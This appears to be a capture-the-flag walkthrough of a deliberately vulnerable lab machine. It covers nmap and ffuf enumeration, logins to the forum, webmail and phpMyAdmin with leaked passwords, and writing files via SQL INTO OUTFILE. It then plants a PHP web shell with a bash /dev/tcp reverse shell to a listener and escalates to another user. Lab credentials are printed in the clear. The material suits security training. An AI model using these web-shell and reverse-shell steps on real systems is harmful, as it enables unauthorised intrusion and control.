## Enumeration

### ping sweep

```
$ nmap -sn -o nmap/ping-sweep.txt 192.168.0.0/24
...
Nmap scan report for 192.168.0.6
Host is up (0.00068s latency).
...
```

### nmap scan


```
$ nmap -sV -oN nmap/sv.txt 10.0.0.5
...
21/tcp  open  ftp      vsftpd 2.0.8 or later
22/tcp  open  ssh      OpenSSH 5.9p1 Debian 5ubuntu1.7 (Ubuntu Linux; protocol 2.0)
80/tcp  open  http     Apache httpd 2.2.22 ((Ubuntu))
143/tcp open  imap     Dovecot imapd
443/tcp open  ssl/http Apache httpd 2.2.22
993/tcp open  ssl/imap Dovecot imapd
...
```

### port 80

http://192.168.0.6/



### port 443

https://192.168.0.6/



Directory fuzzing

```
$ ffuf -u https://192.168.0.6/FUZZ -w /usr/share/seclists/Discovery/Web-Content/common.txt
...
cgi-bin/                [Status: 403, Size: 285, Words: 21, Lines: 11, Duration: 6ms]
forum                   [Status: 301, Size: 306, Words: 20, Lines: 10, Duration: 1ms]
phpmyadmin              [Status: 301, Size: 311, Words: 20, Lines: 10, Duration: 2ms]
server-status           [Status: 403, Size: 290, Words: 21, Lines: 11, Duration: 0ms]
webmail                 [Status: 301, Size: 308, Words: 20, Lines: 10, Duration: 1ms]
...
```

**https://192.168.0.6/forum/**

```
$ ffuf -u https://192.168.0.6/FUZZ -w /usr/share/seclists/Discovery/Web-Content/common.txt
...
modules                 [Status: 301, Size: 314, Words: 20, Lines: 10, Duration: 5ms]
templates_c             [Status: 301, Size: 318, Words: 20, Lines: 10, Duration: 0ms]
themes                  [Status: 301, Size: 313, Words: 20, Lines: 10, Duration: 1ms]
update                  [Status: 301, Size: 313, Words: 20, Lines: 10, Duration: 0ms]
...
```

Users at https://192.168.0.6/forum/index.php?mode=user



Password at https://192.168.0.6/forum/index.php?id=6



Logged in using `lmezard:!q\]Ej?*5K5cy*AJ`

Email address at https://192.168.0.6/forum/index.php?mode=user&action=edit_profile



**https://192.168.0.6/webmail/**

Logged in using `laurie@borntosec.net:!q\]Ej?*5K5cy*AJ`

Database credentials at an email



**https://192.168.0.6/phpmyadmin/**

Logged in using `root:Fg-'kKXBj87E:aJ$`



Write php file on `/var/www/forum/templates_c/` using this sql query

```
SELECT '<?php phpinfo();?>' INTO OUTFILE '/var/www/forum/templates_c/info.php'
```



Browsed to https://192.168.0.6/forum/templates_c/info.php



## Initial access

Create a php script to get a reverse shell

```
SELECT '<?php system("bash -c \'bash -i >& /dev/tcp/192.168.0.5/9000 0>&1\'");?>' INTO OUTFILE '/var/www/forum/templates_c/shell.php'
```

Started a listener

```
$ nc -lnp 9000
```

Browsed to https://192.168.0.6/forum/templates_c/shell.php and got a shell


Logged in as `www-data`

Stabilize our shell

```
target$ python -c 'import pty; pty.spawn("/bin/bash")'
target$ Ctrl+Z
attack$ stty -a
speed 38400 baud; rows 53; columns 237; line = 0;
...
attack$ stty raw -echo; fg
target$ export TERM=xterm
target$ stty rows 53 columns 237
```

## Privilege escalation

**www-data -> lmezard**

credentials were found at `/home/LOOKATME/password`: `lmezard:G!@M6f4Eatau{sF"`



```
$ su lmezard
Password: G!@M6f4Eatau{sF"
```



